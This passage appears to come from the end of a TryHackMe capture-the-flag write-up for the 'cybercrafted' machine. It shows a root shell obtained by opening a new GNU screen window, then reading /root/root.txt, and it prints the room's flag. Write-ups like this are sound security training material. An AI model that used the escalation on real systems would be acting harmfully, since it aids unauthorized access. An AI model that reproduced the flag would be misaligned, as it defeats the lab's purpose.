

Now, we can simply create new window, using the keys: `Ctrl + a + c`.

Then, got root shell:



and the root flag:
```bash
root@cybercrafted:/opt/minecraft/cybercrafted# cat /root/root.txt 
THM{8bb1eda065ceefb5795a245568350a70}
```